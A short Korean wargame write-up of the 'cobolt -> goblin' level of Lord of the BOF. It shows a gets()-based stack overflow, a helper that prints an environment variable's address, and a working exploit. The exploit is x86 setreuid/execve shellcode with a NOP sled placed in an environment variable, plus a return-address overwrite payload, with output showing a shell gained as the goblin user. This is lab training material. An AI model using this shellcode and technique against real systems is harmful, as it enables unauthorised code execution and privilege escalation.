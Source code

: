 # cobolt -> goblin

``` C
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```

24byte의 쉘보다 작은 크기의 버퍼이기 때문에 환경 변수를 이용해 payload를 작성해야 한다.

```C
#include<stdio.h>

int main(void)
{
        printf("%p\n", getenv("shellcode"));
        return 0;
}
```
```
[cobolt@localhost cobolt]$ export shellcode=`python -c 'print "\x90"*100+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
```
위와 같이 환경변수에 등록해준 후, 쉘 코드를 실행할 수 있는 주소를 얻는다.

```
[cobolt@localhost cobolt]$ ./Address
0xbffffef9
```
이후 payload를 작성하여 passwd를 획득한다.
payload=buf(16)+SFP(4)+Return address

```
[cobolt@localhost cobolt]$ (python -c 'print "A"*20 + "\xf9\xfe\xff\xbf"'; cat) | ./goblin
AAAAAAAAAAAAAAAAAAAAùþÿ¿
id
uid=503(goblin) gid=502(cobolt) egid=503(goblin) groups=502(cobolt)
my-pass
euid = 503
hackers proof
```
